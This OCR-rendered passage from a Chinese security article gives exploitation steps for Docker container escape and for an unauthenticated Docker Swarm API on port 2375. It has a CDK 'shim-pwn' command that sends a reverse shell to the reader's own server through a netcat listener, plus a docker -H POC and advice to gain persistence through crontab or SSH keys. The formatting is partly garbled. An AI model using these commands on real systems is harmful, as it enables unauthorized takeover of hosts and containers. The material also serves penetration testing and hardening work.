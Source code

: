 ### 漏洞利用

1.下载容器渗透工具包

https://github.com/cdk-team/CDK/releases/tag/v1.0.1

2.在服务器NC监听端口

3.

  *   * 

    
    
    chmod +x cdk_linux_amd64./cdk_linux_amd64 run shim-pwn <自己服务器IP> <NC端口>

> ref:
>
> https://www.cdxy.me/?p=837
>
> https://zhuanlan.zhihu.com/p/332334413

##  **Docker-Swarm未授权访问致命令执行**

### 利用条件

  * 使用Docker Swarm并且未对2375端口访问加任何限制访问措施

### 漏洞原理

在使用Docker Swarm的时候，管理的Docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page
not found ，其实这是 Docker Remote API，可以执行Docker命令，比如访问
http://host:2375/containers/json 会返回服务器当前运行的 container列表，和在Docker CLI上执行Docker
ps的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成。

### 漏洞POC

  * 

    
    
    docker -H tcp://x.x.x.x:2375 ps

### 漏洞利用

可通过挂载host目录，之后使用crontab或者写ssh key来利用。

  

  * 

    
    
    转自：HACK学习呀

  

  

  **热文推荐  ** ** **
